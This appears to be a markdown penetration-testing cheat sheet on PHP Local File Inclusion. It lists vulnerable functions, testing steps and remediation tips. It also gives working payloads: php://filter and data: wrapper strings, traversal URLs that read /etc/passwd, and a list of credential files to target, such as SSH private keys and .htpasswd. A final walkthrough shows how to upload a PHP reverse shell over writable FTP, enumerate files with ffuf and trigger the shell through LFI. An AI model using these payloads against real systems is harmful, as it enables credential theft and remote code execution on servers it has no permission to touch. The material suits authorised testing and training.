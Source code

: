 # Local File Inclusion (LFI)

## PHP Vulnerable functions:

### Include_once()

### Include()

### require()

#### Example: http://site.com/index.php?file=/etc/passwd (Linux)

#### http://site.com/index.php?file=/windows/win.ini (Windows)

## LFI Testing

#### 1: GET,POST,COOKIE,HTTP header values

#### 2: Valid input to check web server behavior

#### 3: Invalid inputs

#### 4: Use burpsuite or browser address, not only forms

#### 5: Look for errors while entering invalid input to disclose the current path of the web app (trial and error)

#### 6: Understand input validation and check for filters

#### 7: Inject a valid entry to read sensitive files

## File Inclusion Remediation (Both LFI and RFI)

#### 1: Keep systems, services and web apps updated.

#### 2: Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.

#### 3: Web Application Firewall (WAF)

#### 4: Whitelist/Blacklist file names and locations

#### 5: Disable allow_url_fopen and allow_url_include (PHP)

#### 6: Input validation

#### 7: Allow only protocols and PHP wrappers in need.

### PHP WRAPPERS

#### 1) 

    php://filter/convert.base64-encode/resource=.htaccess

#### 2) 

    php://filter/string.rot13/resource=.htaccess

#### 3) 

    php://filter/string.toupper/resource=.htaccess

#### 4) 

    php://filter/string.tolower/resource=.htaccess

#### 5) 

    php://filter/string.strip_tags/resource=.htaccess

### DATA WRAPPER 

    data:text/plain,<?php phpinfo(); ?>

## Important files to look for:

#### 1) /etc/passwd

#### 2) /home/USER/.ssh/id_rsa

#### 3) /etc/apache2/sites-enabled/000-default.conf

#### 4) /var/www/html/config.php

#### 5) /var/www/html/.htpasswd

## LFI to RCE by calling your uploaded reverse shell

If you have write access on an FTP server, you can upload your reverse shell, then call it with LFI to catch it.

### 1) Upload your reverse shell in a writable FTP share

    put php-reverse-shell.php

### 2) Using LFI, find the FTP configuration file to detect the share that your shell is uploaded.

Enumerate with ffuf

    ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -t 100 -u http://192.168.158.14/secret_information/?lang=FUZZ -fs 146

Read FTP configuration file

    http://domain.local/vulnerable.php?lang=/etc/vsftpd.conf

You might detect something like

    anon_root=/var/ftp write_enable=YES (If anonymous access is allowed for example.)

### 3) Enjoy your shell

    http://domain.local/vulnerable.php?lang=/var/ftp/pub/php-reverse-shell.php
